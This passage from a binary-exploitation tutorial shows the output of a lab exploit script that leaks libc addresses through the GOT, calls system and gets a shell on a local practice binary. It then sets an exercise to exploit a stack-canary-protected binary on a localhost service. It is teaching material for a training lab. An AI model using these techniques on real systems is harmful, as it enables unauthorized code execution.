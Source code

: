 Getting our shell:

```
ubuntu@ubuntu-xenial:/vagrant/lessons/10_bypass_got/scripts$ python 5_final.py
[+] Starting local process '../build/1_records': Done
[*] Got leaked data: ��Z�@uV�
[*] puts@libc: 0xf75aeca0
[*] libc base: 0xf754f000
[*] system@libc: 0xf7589da0
[*] Switching to interactive mode
Now Playing: /bin/sh (\xa0\x9dX�@uV�)
$                                  ls -la
total 2232
drwxrwxr-x 1 ubuntu ubuntu    4096 Jan 13 18:01 .
drwxrwxr-x 1 ubuntu ubuntu    4096 Jan 13 18:02 ..
-rw-rw-r-- 1 ubuntu ubuntu     345 Jan 13 16:49 1_arbitrary_read.py
-rw-rw-r-- 1 ubuntu ubuntu     515 Jan 13 16:50 2_arbitrary_read_controlled.py
-rw-rw-r-- 1 ubuntu ubuntu     579 Jan 13 16:52 3_leak_puts_got.py
-rw-rw-r-- 1 ubuntu ubuntu     662 Jan 13 16:54 4_eip_control.py
-rw-rw-r-- 1 ubuntu ubuntu     978 Jan 13 17:00 5_final.py
$
[*] Stopped program '../build/1_records'
ubuntu@ubuntu-xenial:/vagrant/lessons/10_bypass_got/scripts$
```

### Exercises

#### Ex 10.1: Event 1

After the mistakes of the previous Event, Kaizen has decided to secure his system. Can you find a way to exploit the new binary?

It was compiled with a stack canary.

`gcc -m32 -znoexecstack -o ./build/2_event1 ./src/2_event1.c`

The binary can be found here and the source can be found here. The remote target is `nc localhost 1902`.

The solution script may be found here.
